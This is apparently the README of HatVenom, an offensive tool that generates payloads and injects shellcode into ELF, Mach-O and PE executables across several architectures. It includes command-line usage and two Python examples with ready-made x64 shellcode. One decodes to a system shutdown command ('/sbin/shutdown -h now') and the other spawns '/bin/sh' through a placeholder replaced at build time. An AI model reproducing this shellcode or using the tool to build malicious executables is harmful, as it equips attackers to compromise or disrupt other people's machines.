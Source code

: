 # HatVenom

Powerful payload generation and shellcode injection tool that provides support for common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## How it works

* **1.** First we are preparing provided shellcode for injection, we are setting offsets and formatting opcodes.
* **2.** Next we are generating executable, we taking default format header and magic to create simple template.

**NOTICE:** *For `macho` we are using already prepared templates in the `templates/` directory*.

* **3.** Then we are injecting prepared shellcode to generated template.

## Installation

```bash
python3 setup.py install
```

## CLI examples

```bash
python3 hatvenom.py --format elf --arch x64 --shellcode '\x00'

# With replacing offsets

python3 hatvenom.py --format elf --arch x64 --shellcode '\x00:string:\x00' --offsets string=alena
```

**result:**

```
[i] Target format: elf
[i] Target architecture: x64
[*] Generating payload...
[i] Final payload size: 121
[*] Saving payload to a.out...
[+] Payload saved to a.out!
```

## Python example

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xc0\x48\x31\xd2\x50\x6a"
    b"\x77\x66\x68\x6e\x6f\x48\x89\xe3"
    b"\x50\x66\x68\x2d\x68\x48\x89\xe1"
    b"\x50\x49\xb8\x2f\x73\x62\x69\x6e"
    b"\x2f\x2f\x2f\x49\xba\x73\x68\x75"
    b"\x74\x64\x6f\x77\x6e\x41\x52\x41"
    b"\x50\x48\x89\xe7\x52\x53\x51\x57"
    b"\x48\x89\xe6\x48\x83\xc0\x3b\x0f"
    b"\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## Replacing offsets

HatVenom allows you to replace offsets in your shellcode, that means that you can create executable files with injected value.

```python
from hatvenom import HatVenom

shellcode = (
    b"\x48\x31\xf6\x56\x48\xbf"
    b":shell:string:"
    b"\x57\x48\x89\xe7\x48\x31"
    b"\xd2\x48\x31\xc0\xb0\x02"
    b"\x48\xc1\xc8\x28\xb0\x3b"
    b"\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('macho', 'x64', shellcode, {'shell':'//bin/sh'})
```

Offsets must be this type `:offset:` or if you want to specify offset type - `:<offset>:<type>:`.
